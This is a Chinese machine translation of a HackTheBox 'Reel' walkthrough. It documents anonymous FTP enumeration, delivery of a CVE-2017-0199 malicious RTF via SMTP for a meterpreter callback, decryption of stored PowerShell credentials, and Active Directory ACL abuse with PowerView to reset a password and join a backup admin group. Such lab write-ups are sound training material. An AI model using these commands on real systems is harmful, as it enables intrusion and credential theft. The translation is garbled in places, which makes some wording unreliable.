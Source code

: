 # Reel —一个 blood hound & powers loit Active Directory hack the box 演练

> 原文：<https://infosecwriteups.com/reel-a-bloodhound-powersploit-active-directory-hackthebox-walkthrough-3745269b1a16?source=collection_archive---------0----------------------->

![](img/36c51d7b50186ea7539fe5da57a09827.png)

# 摘要

Reel 是一个运行 FTP 服务的 Windows 主机，允许匿名访问。这被用来访问系统上的文件，以便枚举用户电子邮件并识别用户期望接收的邮件。通过电子邮件发送 rtf 文件。一种恶意。然后生成利用 [CVE 的 rtf 文件，并通过 Reel 的 SMTP 服务器发送给用户。此漏洞允许用户访问 Reel。在中发现了加密的用户凭据。xml 文档并被破译以通过 SSH 获得持久性。](https://cvedetails.com/cve/CVE-2017-0199/)

通过在主机上发现的[blood hound](https://github.com/BloodHoundAD/Bloodhound/wiki)Active Directory 审计的工件，主机上的权限被升级。使用 PowerView(现在是 [PowerSploit](https://powersploit.readthedocs.io/en/latest/) 的一部分)利用 Active Directory 配置来获得对另一个用户帐户的访问权限，该用户帐户对包含管理员帐户凭证的文件具有读取权限。

# 侦察

我开始在这台主机上进行侦察，通过`nmap`扫描检查服务版本，并在前 1000 个最常见的端口上运行默认脚本:

```
nmap -sV -sC 10.10.10.77
```

纳米粒子加速器

这返回了 3 个服务:端口 21 上的 FTP、端口 22 上的 SSH 和端口 25 上的 SMTP。由于 FTP 允许匿名访问，这是枚举的下一个逻辑步骤。

```
ftp 10.10.10.77
```

匿名 FTP

我们可以看到在`documents`文件夹中有 3 个我们可以访问的文件。这些文件可以使用`GET <filename>`命令单独复制，或者——因为这是匿名 FTP——可以使用`wget`从攻击主机检索:

```
wget -r ftp://10.10.10.77
```

“Windows Event Forwarding.docx”在文档的创建者元数据字段中包含用户电子邮件地址“nico@megabank.com ”,可以使用`exiftool`查看。

```
exiftool “Windows Event Forwarding.docx”
```

exiftool

文件“readme.txt”只包含:

> “请给我发电子邮件任何 rtf 格式的程序，我会审查和转换。
> 
> 新格式/转换后的文档将保存在这里。"

试图通过 SMTP 使用 VRFY 命令验证“nico@megabank.com”电子邮件帐户时，该命令被禁止。但是，RCPT 命令可用于枚举有效的电子邮件帐户:

```
telnet 10.10.10.77 25
```

SMTP 枚举

此时，已经收集了 3 个关键细节:

*   主机上运行的 SMTP 服务器
*   电子邮件帐户“nico@megabank.com”
*   有人想接收。rtf 文件

# 最初的立足点

研究利用迄今收集的信息的方法返回了[CVE-2017–0199](https://cvedetails.com/cve/CVE-2017-0199/)这是 2017 年 4 月发现的一个关键的微软 Office 零时差。这个漏洞利用了。rtf 文件(有些重命名为。doc)，它将连接到远程服务器(由攻击者控制)以下载包含 HTML 应用程序内容的文件，并作为。hta 文件。因为。hta 是可执行的，攻击者就可以在受害者的机器上完全执行代码。这个逻辑错误也给了攻击者绕过微软开发的任何基于内存的缓解措施的权力([来源](https://securingtomorrow.mcafee.com/mcafee-labs/critical-office-zero-day-attacks-detected-wild/))。

除了 Metasploit 模块:“Microsoft Office Word 恶意 Hta 执行”(exploit/windows/file format/Office _ Word _ Hta)之外，还有手动利用此漏洞[的方法。需要明确的是，这两种方法都不会直接利用任何客户端。恶意文件必须在这些模块之外的受害者机器上传送和执行。这些模块会生成恶意的。rtf 文件和宿主. hta 文件。因为这个总结不是关于 CVE-2017–0199 本身，而是关于 Reel 的整体妥协，所以我将演示 Metasploit 模块，因为它更精简，更容易重复。](https://www.helpnetsecurity.com/2017/04/10/ms-office-zero-day/)

exploit/windows/file format/office _ word _ HTA

该模块创建了恶意文件`shell.rtf`并将其放在目录`/root/.msf4/local/`中，同时还托管了。web 服务器上的 hta 文件。`swaks`使用瑞士军刀 smtp 通用 SMTP 事务测试器将恶意文件发送到“nico@megabank.com”:

```
swak --to nico@megabank.com --server 10.10.10.77 --attach /root/.msf4/local/shell.rtf
```

仪表外壳

之后不久。rtf 文件被传送到主机，它被打开以产生一个回调来下载和执行。hta 文件，它返回一个允许用户访问主机的 meterpreter shell。

# 坚持

用户`nico`的桌面上有一个名为`cred.xml`的文件，其中似乎包含另一个在线用户`tom`的凭证:

这个 xml 文档实现了一种存储用户凭证的方法，以便[将它们传递到 PowerShell 脚本](https://ye110wbeard.wordpress.com/2012/05/21/three-ways-to-pass-credentials-in-a-powershell-script/)中，而无需将凭证添加到每个脚本中。这使得更新凭证变得容易，而不会破坏多个脚本，也不需要单独更新它们。

为了与 xml 文件进行预期的交互，meterpreter shell 必须使用命令[加载 PowerShell 扩展](https://www.darkoperator.com/blog/2016/4/2/meterpreter-new-windows-powershell-extension):

```
load powershell
```

使用以下命令获得了 PowerShell 提示符，而不是标准 CMD 提示符:

```
powershell_shell
```

使用 cmdlet `Import-CliXml`通过以下命令将文件作为 PSCredential 对象接收:

```
$tom=Import-CliXml -Path C:\Users\nico\Desktop\cred.xml
```

密码是从一个系统转换来的。Security.SecureString 到明文字符串，使用命令:

```
$tom.GetNetworkCredential().Password
```

一起:

cred.xml 明文密码

这个明文密码用于以用户`tom`的身份获得对 Reel 的 SSH 访问。

# 权限提升

在`tom`用户的桌面目录中，有一个名为“AD Audit”的文件夹，其中包含来自[blood hound](https://github.com/BloodHoundAD/Bloodhound/wiki)Active Directory 审计的工件。这包括一个名为“acls.csv”的文件，其中包含每个 AD 用户帐户与其他用户和组的关系。

查看“acls.csv”发现`tom`拥有对`claire`账户的 WriteOwner 权限。`claire`帐户拥有特权`backup_admin`组的写权限。官方的[powers loit 文档](https://powersploit.readthedocs.io/en/latest/)以及一个重要贡献者的过时的[博客帖子](http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/)返回了正确的语法来执行密码重置并控制`claire`帐户，并将`claire`帐户添加到`Backup_Admins`组。

首先，导入位于 AD Audit 文件夹中的`PowerView.ps1`模块:

```
Import-Module ‘C:\Users\tom\Desktop\AD Audit\BloodHound\PowerView.ps1’
```

接下来，`tom`拥有对`claire`用户对象的 WriteOwner 权限。因此将`tom`设置为`claire`对象的所有者。

```
Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
```

既然`tom`是`claire`对象的所有者，`tom`可以向 ACL 添加条目。添加一个条目，赋予`tom`更改`claire`对象密码的权利。

```
Add-ObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
```

更改`claire`的密码:

```
$UserPassword=ConvertTo-SecureString ‘1ts-mag1c!!!’ -AsPlainText -ForceSet-DomainUserPassword -Identity claire -AccountPassword $UserPassword
```

为`claire`帐户创建一个凭证对象，以便使用`claire`的权限执行命令:

```
$Cred = New-Object System.Management.Automation.PSCredential(‘HTB\claire’, $UserPassword)
```

将`claire`添加到`Backup_Admins`组:

```
Add-DomainGroupMember -Identity ‘Backup_Admins’ -Members ‘claire’ -Credential $Cred
```

一起:

拥有克莱尔

使用`claire`帐户 SSH 到主机，我们能够访问`Administrator`帐户的桌面，但仍然不能访问`root.txt`标志。然而，有一个“备份脚本”目录，其中包含一个名为`BackupScript.ps1`的文件，该文件包含管理员帐户的明文密码。

![](img/148be950a08166302b17c9f57a8a4a28.png)

管理员密码

该密码用于通过 SSH 访问管理员帐户并获得根标志:

![](img/d1f1c1daad466b311d284cefbeff0f40.png)

证明